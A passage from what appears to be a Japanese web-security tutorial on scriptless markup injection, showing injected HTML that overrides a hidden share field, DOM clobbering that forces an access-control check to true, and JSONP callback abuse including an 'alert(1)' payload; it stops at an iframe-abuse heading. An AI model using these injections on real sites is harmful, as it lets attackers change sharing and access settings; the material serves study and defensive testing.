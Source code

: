 この攻撃では、`data-share-with`属性の値を変更することで、スクリプトのフローを操作することができます。
```markup
<input type='hidden' id='share_with' value='fredmbogo'>     ← Injected markup
...
Share this status update with:                              ← Legitimate optional element of a dialog
<input id='share_with' value=''>

...

function submit_status_update() {
...
request.share_with = document.getElementById('share_with').value;
...
}
```
### 誤解を招くスクリプトのワークフロー2 - スクリプト名前空間攻撃

HTMLタグを挿入してJavaScriptの名前空間内に変数を作成します。その後、この変数はアプリケーションのフローに影響を与えます。
```markup
<img id='is_public'>                                        ← Injected markup

...

// Legitimate application code follows

function retrieve_acls() {
...
if (response.access_mode == AM_PUBLIC)                    ← The subsequent assignment fails in IE
is_public = true;
else
is_public = false;
}

function submit_new_acls() {
...
if (is_public) request.access_mode = AM_PUBLIC;           ← Condition always evaluates to true
...
}
```
### JSONPの乱用

JSONPインターフェースを見つけた場合、任意の関数と任意のデータを呼び出すことができる可能性があります。
```markup
<script src='/editor/sharing.js'>:              ← Legitimate script
function set_sharing(public) {
if (public) request.access_mode = AM_PUBLIC;
else request.access_mode = AM_PRIVATE;
...
}

<script src='/search?q=a&call=set_sharing'>:    ← Injected JSONP call
set_sharing({ ... })
```
または、いくつかのJavaScriptを実行してみることもできます：
```markup
<script src='/search?q=a&call=alert(1)'></script>
```
### Iframeの悪用
